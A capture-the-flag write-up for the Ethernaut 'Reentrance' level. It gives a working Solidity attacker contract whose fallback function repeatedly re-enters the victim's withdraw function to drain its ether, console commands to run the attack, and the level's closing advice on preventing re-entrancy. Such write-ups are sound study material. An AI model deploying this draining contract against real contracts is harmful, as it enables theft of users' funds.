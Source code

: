 # 10. Reentrance
The goal of this level is for you to steal all the funds from the contract.

Reading:  
https://quantstamp.com/blog/what-is-a-re-entrancy-attack
Steps.

Proxy.sol
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
    function donate(address _to) external payable;
    function balanceOf(address _who) external view returns (uint balance);
    function withdraw(uint _amount) external;
}

contract Proxy {
    
    address payable public owner;
    address public reentranceAddress = 0xB4155770b77B7c24a90Af98246Df03F909E6294A;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function callWithdrawBalance() public {
        IReentrance(reentranceAddress).withdraw(0.1 ether);
    }
    
	// this is where the reentrancy loop happens
    receive () external payable { 
        if (reentranceAddress.balance > 0 ether) {
            callWithdrawBalance();
        }
    }
    
    function drain() public {
        owner.transfer(address(this).balance);
    }
}
```

- deploy Proxy contract 
	get deployed contract 'Proxy.sol' address
- call donate(_to) from console where _to = 'Proxy.sol' address
	`contract.donate("0x0759616d11dDaFe810e0F3fF96BF95DC498Da6d4",{from:"[player address]", value:100000000000000000})`

- call Proxy.callWithdrawBalance()

- (optional) call Proxy.drain() to get back eth

- confirm with `getBalance(contract.address)`
		
**END**

Level completed!

Difficulty 6/10

In order to prevent re-entrancy attacks when moving funds out of your contract, use the Checks-Effects-Interactions pattern being aware that call will only return false without interrupting the execution flow. Solutions such as ReentrancyGuard or PullPayment can also be used.

transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork Source 1 Source 2.

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See 15 lines of code that could have prevented TheDAO Hack.